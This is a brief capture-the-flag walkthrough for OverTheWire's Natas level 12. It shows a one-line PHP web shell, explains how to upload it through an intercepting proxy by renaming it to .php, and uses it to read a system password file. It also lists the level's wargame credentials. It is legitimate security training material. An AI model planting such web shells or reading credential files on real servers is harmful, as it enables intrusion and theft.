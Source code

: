 ### Natas Level 12

[natas12](http://natas12.natas.labs.overthewire.org)

**Username**: *natas12*

**Password**: *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*

### Solution

* Create a quick php shell (Level12-shell.php):

```php
<?php
echo shell_exec($_GET['cmd']);
```

* Intercept HTTP POST request(upload) using a proxy such as Burp.
* Change the filename to e.g. myshell.php
* Visit url http://natas12.natas.labs.overthewire.org/upload/<filename>.php?cmd=cat%20/etc/natas_webpass/natas13

#### Credentials for Level 12 

**Username**: *natas13*

**Password**: *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*
